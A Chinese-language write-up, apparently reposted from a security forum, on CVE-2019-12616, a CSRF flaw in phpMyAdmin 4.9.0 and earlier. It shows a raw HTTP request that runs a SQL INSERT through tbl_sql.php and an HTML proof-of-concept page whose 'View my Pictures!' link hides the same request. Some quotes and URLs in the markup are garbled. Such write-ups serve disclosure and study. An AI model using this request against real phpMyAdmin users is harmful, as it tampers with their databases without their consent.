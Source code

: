# （CVE-2019-12616）Phpmyadmin CSRF

> 原文：[https://www.zhihuifly.com/t/topic/3084](https://www.zhihuifly.com/t/topic/3084)

# （CVE-2019-12616）Phpmyadmin CSRF

## 一、漏洞简介

4.9.0之前在phpmyadmin中发现了一个问题。发现一个漏洞，允许攻击者对phpMyAdmin用户触发CSRF攻击。攻击者可以欺骗用户。

```
例如通过指向受害者的phpMyAdmin数据库的一个损坏的<img>标记，并且攻击者可以潜在地将有效负载（例如特定的插入或删除语句）传递给受害者。 
```

## 二、漏洞影响

Phpmyadmin <= 4.9.0

## 三、复现过程

```
GET http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+%60pma__bookmark%60+(%60id%60%2C+%60dbase%60%2C+%60user%60%2C+%60label%60%2C+%60query%60)+VALUES+(DAYOFWEEK(%27%27)%2C+%27%27%2C+%27%27%2C+%27%27%2C+%27%27)&show_query=1&db=phpmyadmin&table=pma__bookmark HTTP/1.1 `User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Connection: keep-alive

Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; pmaUser-1=%7B%22iv%22%3A%22M16ZzlA0rqF9BZ1jFsssjQ%3D%3D%22%2C%22mac%22%3A%22804941d12fceca0997e181cbcb8427d68c668240%22%2C%22payload%22%3A%22mD9juTxAYhC7lA7XPWHWOw%3D%3D%22%7D; phpMyAdmin=9bdd66557e399fc1447bf253bc2dc133

Upgrade-Insecure-Requests: 1

Host: localhost:9000` 
```

攻击者可以很容易地创建一个假超链接，其中包含希望代表用户执行的请求，这样就可能由于错误地使用http方法而导致csrf攻击

```
#POC
<!doctype html> `<html lang=“en”>

<head>

<meta charset=“utf-8”>

<title>POC CVE-2019-12616</title>

</head>

<body>

<a href=“[http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+](http://www.0-sec.org:9000/tbl_sql.php?sql_query=INSERT+INTO+)`pma__bookmark`+(`id`%2C+`dbase`%2C+`user`%2C+`label`%2C+`query`)+VALUES+(DAYOFWEEK(’’)%2C+’’%2C+’’%2C+’’%2C+’’)&show_query=1&db=phpmyadmin&table=pma__bookmark”>View my Pictures!</a>

</body>

</html>` 
```